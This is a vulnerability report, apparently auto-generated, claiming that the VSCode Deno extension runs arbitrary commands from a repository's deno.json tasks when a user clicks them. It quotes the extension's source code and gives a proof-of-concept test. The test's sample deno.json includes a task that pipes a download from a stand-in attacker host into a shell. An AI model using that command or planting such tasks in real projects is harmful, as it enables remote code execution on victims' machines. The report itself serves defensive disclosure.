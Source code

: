 # Vulnerabilities List

## Command Injection via Deno Tasks

### Description

VSCode Deno extension allows executing tasks defined in a deno.json configuration file. A malicious actor can create a repository with a deno.json file containing tasks with harmful commands. When a victim opens this repository in VSCode with the Deno extension installed, the tasks will appear in the Deno Tasks sidebar. If the victim clicks to run one of these tasks, the malicious command will be executed on their system.

Step by step execution flow:
1. Attacker creates a malicious repository with a deno.json file containing harmful commands in task definitions
2. Victim clones and opens the repository in VSCode with Deno extension
3. The extension parses the deno.json file and presents tasks in the Deno Tasks sidebar
4. When victim clicks on a task to run it, the extension executes the command with victim's privileges

### Impact

This vulnerability allows arbitrary command execution on the victim's machine with the same privileges as the VSCode process. An attacker could:
- Execute any system commands
- Access, modify, or delete files
- Install malware
- Steal sensitive information
- Establish persistence on the system

### Vulnerability Rank

**Critical**

### Currently Implemented Mitigations

There are no effective mitigations currently implemented in the codebase. The extension does not validate or sanitize task commands before execution. It relies on the user to verify the task content before execution, which is not a reliable security control.

### Missing Mitigations

1. Command validation and sanitization before execution
2. Sandbox execution environment for untrusted tasks
3. Prompt for confirmation with clear warning when executing tasks from newly opened repositories
4. Restriction of task commands to a predefined safe set of operations

### Preconditions

1. Victim must have the Deno VSCode extension installed
2. Victim must open a malicious repository in VSCode
3. Victim must trigger the execution of a task from the Deno Tasks sidebar or through a task command

### Source Code Analysis

The vulnerability exists in the task execution flow. Let's trace how tasks are registered and executed:

1. In `client/src/tasks_sidebar.ts`, the `DenoTasksTreeDataProvider` class has a method that runs tasks:

```typescript
#runTask(task: DenoTask) {
  tasks.executeTask(task.task);
}
```

2. Tasks are built in `client/src/tasks.ts` via the `buildDenoConfigTask` function:

```typescript
export function buildDenoConfigTask(
  scope: vscode.WorkspaceFolder,
  process: string,
  name: string,
  command: string | undefined,
  sourceUri?: vscode.Uri,
): vscode.Task {
  const args = [];
  if (
    sourceUri &&
    vscode.Uri.joinPath(sourceUri, "..").toString() != scope.uri.toString()
  ) {
    const configPath = path.relative(scope.uri.fsPath, sourceUri.fsPath);
    args.push("-c", configPath);
  }
  args.push(name);
  const task = new vscode.Task(
    {
      type: TASK_TYPE,
      name: name,
      command: "task",
      args,
      sourceUri,
    },
    scope,
    name,
    TASK_SOURCE,
    new vscode.ProcessExecution(process, ["task", ...args]),
    ["$deno"],
  );
  task.detail = `$ ${command}`;
  return task;
}
```

3. Tasks are loaded from deno.json in `client/src/tasks_sidebar.ts` via the `DenoTaskProvider.provideTasks()` method:

```typescript
async provideTasks(): Promise<Task[]> {
  const process = await getDenoCommandName();
  const client = this.#extensionContext.client;
  const supportsConfigTasks = this.#extensionContext.serverCapabilities
    ?.experimental?.denoConfigTasks;
  if (!client || !supportsConfigTasks) {
    return [];
  }
  const tasks = [];
  try {
    const configTasks = await client.sendRequest(taskReq);
    for (const configTask of configTasks ?? []) {
      const workspaceFolders = Array.from(
        workspace.workspaceFolders ?? [],
      );
      workspaceFolders.reverse();
      const workspaceFolder = workspaceFolders.find((f) =>
        configTask.sourceUri
          .toLocaleLowerCase()
          .startsWith(f.uri.toString(true).toLocaleLowerCase())
      );
      if (!workspaceFolder) {
        continue;
      }
      const task = buildDenoConfigTask(
        workspaceFolder,
        process,
        configTask.name,
        configTask.command ?? configTask.detail,
        Uri.parse(configTask.sourceUri),
      );
      tasks.push(task);
    }
  } catch (err) {
    window.showErrorMessage("Failed to retrieve config tasks.");
    this.#extensionContext.outputChannel.appendLine(
      `Error retrieving config tasks: ${err}`,
    );
  }
  return tasks;
}
```

This creates a critical vulnerability path:
1. Task commands from deno.json are read through the language server
2. These commands are passed directly to `buildDenoConfigTask` without validation
3. When executed, these commands run with the user's privileges via `ProcessExecution`

No validation or sanitization is performed on the command string, allowing arbitrary command execution.

### Security Test Case

To prove this vulnerability:

1. Create a malicious repository with the following deno.json file:

```json
{
  "tasks": {
    "harmless-looking-task": "echo 'Compromised!' && calc.exe",
    "another-task": "curl -s https://attacker.com/payload | sh"
  }
}
```

2. Clone the repository to a test environment with VSCode and the Deno extension installed

3. Open the repository in VSCode with the Deno extension

4. Observe that the tasks appear in the Deno Tasks sidebar

5. Click on the "harmless-looking-task" task

6. Verify that the Calculator app opens (on Windows) and "Compromised!" is printed in the output, confirming arbitrary command execution

This demonstrates that an attacker can achieve command execution on a victim's machine by having them interact with tasks from a malicious repository.
